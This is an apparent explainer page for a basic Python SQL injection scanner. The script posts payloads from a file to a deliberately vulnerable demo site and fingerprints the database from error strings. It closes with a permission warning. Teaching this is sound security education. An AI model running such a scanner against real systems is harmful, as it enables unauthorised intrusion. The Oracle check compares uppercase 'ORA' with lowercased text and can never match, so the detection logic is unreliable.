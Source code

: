 This Python script appears to be a basic tool for testing SQL injection vulnerabilities in a web application. Let's break down the code and provide some comments:

```python
import requests

# Define the base URL for testing SQL injection
url = "http://testphp.vulnweb.com/listproducts.php?cat="

# Initialize a list to store SQL injection payloads
sql_payloads = []

# Read SQL injection payloads from a file and populate the list
with open('sql-attack-vector.txt', 'r') as filehandle:
    for line in filehandle:
        sql_payload = line[:-1]
        sql_payloads.append(sql_payload)

# Iterate over each SQL injection payload
for payload in sql_payloads:
    # Display the URL being tested with the current payload
    print("Testing " + url + payload)
    
    # Send a POST request with the URL and current payload
    response = requests.post(url + payload)
    
    # Check the response for common indicators of database systems
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected, attack string: " + payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected, attack string: " + payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected, attack string: " + payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle database detected, attack string: " + payload)
    else:
        print("Payload", payload, "not injectable")
```

Explanation:

- **Import the `requests` library:** Used for sending HTTP requests.
- **Define the base URL:** This is the URL of the vulnerable page. SQL injection payloads will be appended to the "cat" parameter in the URL.
- **Initialize a list for SQL payloads:** Reads SQL injection payloads from a file and stores them in a list.
- **Iterate over payloads:** For each SQL injection payload, the script sends a POST request to the specified URL.
- **Check response for database indicators:** It then checks the response for common indicators of different database systems (MySQL, MSSQL, PostGRES, Oracle).
- **Print results:** It prints whether the payload resulted in a detectable injection for a specific database or if the payload was not injectable.

This script assumes that the web application responds differently depending on the injected SQL payload, and it attempts to identify the type of database by examining these responses. It's important to note that such testing should only be performed on systems you have explicit permission to test, as unauthorized testing may be illegal and is considered unethical.
